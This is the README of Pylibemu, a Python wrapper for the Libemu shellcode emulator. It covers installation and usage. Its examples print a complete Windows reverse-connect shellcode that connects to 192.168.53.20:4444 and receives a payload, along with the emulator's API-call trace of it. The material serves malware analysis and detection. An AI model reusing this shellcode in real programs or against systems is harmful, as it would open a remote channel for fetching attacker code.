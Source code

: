 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

$ sudo pip install pylibemu

or alternatively

$ python setup.py build
$ sudo python setup.py install


## Usage

.. code-block:: sh

	buffer@alnitak ~ $ python
	Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
	[GCC 4.4.4] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method `run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 
.. code-block:: sh

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter `output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

.. code-block:: sh

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute `emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator `set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2015 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.

